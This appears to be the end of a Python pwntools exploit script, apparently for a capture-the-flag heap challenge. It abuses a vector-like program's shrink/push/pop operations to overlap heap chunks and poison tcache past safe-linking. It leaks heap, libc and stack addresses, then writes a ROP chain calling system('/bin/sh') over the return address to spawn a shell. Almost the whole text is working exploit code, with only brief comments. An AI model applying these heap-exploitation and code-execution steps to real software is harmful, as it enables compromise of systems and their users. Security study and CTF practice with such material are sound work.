shrink() # Immediately shrink to trigger the bug

push(convert(1))
push(convert(2))
push(convert(3))
shrink() # Shrink to reset
push(convert(0x21)) # Setup for tcache next_size check

# Set size to 0
for i in range(0x4):
    pop() 

shrink() # Shrink to trigger the bug
shrink() # Shrink twice to switch chunks

for i in range(0x3):
    push(convert(i+1))

push(convert(0x41)) # Overflow into next size
pop() # Pop
shrink() # Malloc into Overlapped chunk
push(convert(0x41)) # Do the setup for overlap
push(convert(0x5)) # next ptr
push(convert(0x6)) # tcache random number
shrink() # Shrink to switch and set up the leak

# Get the Leaks by popping.
randleak = eval(pop())
heapleak = eval(pop()) << 12
unsign = lambda u: u & ((1<<64)-1) # Safe Linking Reversal  
info(f'Heap leak: 0x{heapleak:02x}')
info(f'Rand leak: 0x{unsign(randleak):02x}')

# ========= Libc Leak ============
# Fixes overlapping 0x41 chunks
push(convert(xor(0)))
push(convert(randleak))
shrink()
pop()
pop()
pop()
push(convert(0x21)) # Make sure overlaps correctly

# Get a size almost out of tcache
for i in range(0x60-0x4):
    push(convert(0x4+i))

# Set size to 0
for i in range(0x60):
    pop()

shrink() # Trigger 0x20 chunk
push(convert(1)) # Get new 0x20 chunk below last chunk
shrink() # Switch back to old 0x20 chunk
pop() # Clean Size

# Prepare for 0x40 chunk
push(convert(1))
push(convert(2))
push(convert(3))
push(convert(0x21))

# Set size to 0x8, for chunk size 0x50
for i in range(0x4):
    push(convert(4+i))
# Allocates 0x50 chunk below new 0x20 chunk
# used for overlapping later

# set size to 0x6
pop()
pop()
shrink() # Shrink to go back to 0x40 chunk

# Get unsorted size chunk of 0x611
for i in range(0x61-0x6):
    push(convert(0x6+i))

# Set size to 0
for i in range(0x61):
    pop()

# Trigger the 0x20 chunk
shrink() # Get 0x20 Chunk, let 0x611 consolidate with top
shrink() # Switch 0x20 Chunk
# Overflow, simultaneously set size to 8 for 0x50 chunk
push(convert(1))
push(convert(2))
push(convert(3))
push(convert(0x71)) # Overwrite chunk size from 0x51 to 0x71
push(convert(xor(0))) # Overwrite ptr
push(convert(randleak)) # Overwrite tcache rand
push(convert(7)) 
push(convert(0x21)) # Put size for tcache size check
shrink() # Malloc into overlapped 0x50 chunk (now 0x70 chunk)

for i in range(0x8-0x3):
    pop()

push(convert(0x21))
push(convert(5))
push(convert(6))
# Set size to 6, of chunk 0x40

# Put 0x50 chunk into 0x70 tcache bin (overlapping)
shrink() # Malloc into chunk 0x40, 
for i in range(0x3):
    push(convert(0x7+i))
# Set size to 8 again, malloc back to 0x70 chunk

push(convert(0x20651)) # Fix top chunk

# Get chunk size 0x610 + prepare for chunk 0x410
for i in range(0x81-0xa):
    push(convert(0xb+i)) # Set size to 0x81

shrink() # Trigger malloc for chunk of 0x410

# Set size to 0x61, of chunk size 0x310
for i in range(0x21):
    pop()

shrink() # Malloc into 0x310

push(convert(0xdeadc0de)) # Trigger malloc into 0x610 again
# Set size to 0x9
for i in range(0x61-0x9):
    pop()

# Rewrite 9th index onwards that overlaps 0x610 chunk
push(convert(0x611)) # Retain size
push(convert(0xdeadbeef)) # Overwrite unsorted fd
push(convert(0xcafebabe)) # Overwrite unsorted bk

shrink() # Get overlapping chunk (0x70 chunk size)
# libc address will be inserted into the overlapping chunk
# because free() happens after memcpy()

libcleak = eval(pop())
info(f'Libc leak: 0x{libcleak:02x}')

libc.address = libcleak - 0x203b20
info(f'Libc base: 0x{libc.address:02x}')

# ========= Stack Leak ============
# Set size to 0
for i in range(0xb):
    pop()

shrink() # Get 0x20 chunk
shrink() # Switch to the old 0x20 chunk

# Payload for overlapping chunks
payload = [
    0x0, 0x0,
    0x0, 0x71, # --> Our fake_chunk size
    xor(heapleak+0x260), randleak, # --> Poisoned Tcache
    0x0, 0x21,
    heapleak+0x280, 0x611, # --> Arbitrary free, points to fake_chunk_size+0x8 (tcache points to user field)
    libcleak, libcleak
]

for item in payload:
    push(convert(item))
shrink() # Switch 0x70 chunk, poison the 0x70 tcache bin
shrink() # Trigger the malloc & memcpy to get arbitrary free
# Use math to fix the size and gain control
for i in range(0x611-0xc):
    pop()

replace(convert(0x31)) # Replace and fix 0x30 chunk size
replace(convert(-0x290)) # Replace Capacity
pop() # Get size
push(convert(8)) # Edit size to 0x8 (storage pointer position)

target = libc.sym.environ-0x38 #--> Adjusting to account for the size field.
push(convert(target))

pop()
stackleak = eval(pop())
info(f'Stack leak: 0x{stackleak:02x}')

# ========= Returning to heap ============
for i in range(7):
    pop() # Set size to 0, clean storage.

fakestruct = [
    0x0, 0x0,
    0x0, 0x21, # Vector struct chunk size.
    0x0, 0x4, # Arbitrary free to 0, and set size to 0x4
    -1, stackleak, # Set max capacity and Retain Libc's Environ value.
    0x0, 0x0,
    heapleak+0x21000, 0x0 # Retain __curbrk value
]
for member in fakestruct:
    push(convert(member))

shrink() # Trigger the malloc back to heap
rip = stackleak - 0x130
push(convert(rip)) # Change storage pointer to rip

for i in range(5):
    pop() # Set size to 0, clean storage

rop = ROP(libc)
rop.raw(rop.find_gadget(['ret'])[0])
rop.system(next(libc.search(b'/bin/sh\0')))

for val in rop.build(): # Turn ROP chain to a list
    push(convert(val))

io.sendlineafter(b'> ', b'4') # Trigger return

io.interactive()
```

